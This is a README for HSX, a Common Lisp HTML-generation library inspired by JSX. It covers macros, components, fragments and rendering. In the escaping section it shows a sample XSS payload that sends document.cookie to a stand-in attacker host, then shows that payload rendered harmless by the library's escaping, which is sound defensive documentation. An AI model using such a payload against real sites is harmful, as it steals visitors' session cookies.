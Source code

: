 # HSX – Hypertext S-expression

**HSX** is a lightweight and expressive HTML generation library for Common Lisp, inspired by JSX. It allows you to write HTML using native Lisp syntax.

> 🚧 **ALPHA NOTICE:**  
> This library is still in early development. APIs may change.  
> See [release notes](https://github.com/skyizwhite/hsx/releases) for details.

## ⚙️ How HSX Works

Every tag or component inside an `(hsx ...)` form is transformed into a Lisp expression of the form:

```lisp
(create-element type props children)
```

For example:

```lisp
(hsx
  (article :class "container"
    (h1 "Title")
    (p "Paragraph")
    (~share-button :service :x))
```
Is internally transformed (by macro expansion) into:

```lisp
(create-element :article '(:class "container")
  (list
    (create-element :h1 nil (list "Title"))
    (create-element :p nil (list "Paragraph"))
    (create-element #'~share-button '(:service :x) (list))))
```

This is made possible via the hsx macro, which detects HTML tags and components, then rewrites them using create-element. Tags are converted to keywords (e.g., div → :div), and custom components (starting with ~) are passed as functions.

## 🚀 Quick Example

```lisp
(hsx
  (div :id "main" :class "container"
    (h1 "Hello, HSX!")
    (p "This is a simple paragraph.")))
```

Generates:

```html
<div id="main" class="container">
  <h1>Hello, HSX!</h1>
  <p>This is a simple paragraph.</p>
</div>
```

## 📝 Rendering

Use `render-to-string` to convert an HSX structure to a string of HTML:

```lisp
(render-to-string
  (hsx ...))
``` 

## 🔐 Escaping text

All elements automatically escape special characters in content to prevent XSS and HTML injection:

```lisp
(hsx
  (div "<script>fetch('evilwebsite.com', { method: 'POST', body: document.cookie })</script>"))
```
Outputs:

```html
<div>&lt;script&gt;fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, body: document.cookie })&lt;&#x2F;script&gt;</div>
```

Use the special tag `raw!` to inject trusted, unescaped HTML:

```lisp
(hsx
  (article (raw! "HTML text here ..."))
```

## 🧩 Fragments

Use `<>` tag to group multiple sibling elements without wrapping them in a container tag:

```lisp
(hsx
  (<>
    (p "One")
    (p "Two")))
```

Outputs:

```html
<p>One</p>
<p>Two</p>
```

Note: `raw!` tag is a fragment that disables HTML escaping for its children.

## 🧱 Components

Define reusable components using `defcomp` macro. Component names must start with `~`.

*Keyword-style*

```lisp
(defcomp ~card (&key title children)
  (hsx
    (div :class "card"
      (h2 title)
      children)))
```

*Property-list style*

```lisp
(defcomp ~card (&rest props)
  (hsx
    (div :class "card"
      (h2 (getf props :title))
      (getf props :children))))
```

### Usage

```lisp
(hsx
  (~card :title "Hello"
    (p "This is a card.")))
```

Outputs:

```html
<div class="card">
  <h2>Hello</h2>
  <p>This is a card.</p>
</div>
```

## 🧬 Logic and Interpolation

You can freely embed Lisp expressions, conditionals, and loops inside HSX forms:

```lisp
(hsx
  (div
    (if (> (random 10) 5)
        (hsx (p "High!"))
        (hsx (p "Low!")))))
```

Or loop:

```lisp
(hsx
  (ul
    (loop :for item :in todo-list :collect
      (hsx (li item))))))
```

## 📄 License

MIT License
	•	© 2024 Akira Tempaku
	•	© 2018 Bo Yao (original [flute](https://github.com/ailisp/flute) project)
 
